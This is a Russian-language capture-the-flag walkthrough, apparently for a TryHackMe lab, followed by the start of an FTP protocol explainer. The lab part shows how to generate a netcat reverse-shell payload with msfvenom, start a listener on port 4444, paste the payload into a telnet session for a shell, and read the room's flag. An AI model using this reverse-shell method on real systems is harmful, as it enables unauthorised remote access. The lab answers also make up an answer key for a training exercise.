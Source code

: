 `msfvenom - p cmd / unix / reverse_netcat lhost =[локальный tun0 ip] lport = 4444 R`

- -p = полезная нагрузка
- lhost = IP-адрес нашего локального хоста (это IP-адрес вашего  компьютера)
- lport = порт для прослушивания (это порт на вашем компьютере)
- R = экспортировать полезную нагрузку в необработанном формате

С какого слова начинается сгенерированная полезная нагрузка?

```commandline
mkfifo
```
Отлично. Мы почти у цели. Теперь нам нужно только запустить прослушиватель netcat на локальной машине. Мы делаем это 
с помощью: 

`nc -lvp [прослушиваемый порт]`

Как будет выглядеть команда для порта прослушивания, выбранного нами в нашей полезной нагрузке?
```commandline
nc -lvp 4444
```
Отлично! Теперь, когда все запущено, нам нужно скопировать и вставить наш полезный груз msfvenom в сеанс telnet и 
запустить его как команду. Надеюсь, это даст нам оболочку на целевой машине! 
```commandline
Ответ не нужен
```
Успех! Каково содержимое flag.txt?
```commandline
THM{y0u_g0t_th3_t3ln3t_fl4g}
```

## Задание 8
### Что такое FTP ?

Протокол передачи файлов (FTP) — это, как следует из названия, протокол, используемый для удаленной передачи файлов 
по сети. Для этого он использует модель клиент-сервер и, как мы увидим позже, передает команды и данные очень 
эффективным способом.  

### Как работает FTP ?
Типичный сеанс FTP работает с использованием двух каналов:
- канал управления (иногда называемый каналом управления)
- канал данных.
Как следует из названия, командный канал используется для передачи команд, а также ответов на эти команды, тогда как 
канал данных используется для передачи данных. 

FTP работает с использованием клиент-серверного протокола. Клиент инициирует соединение с сервером, сервер проверяет 
предоставленные учетные данные для входа и затем открывает сеанс. 

Пока сеанс открыт, клиент может выполнять FTP -команды на сервере.
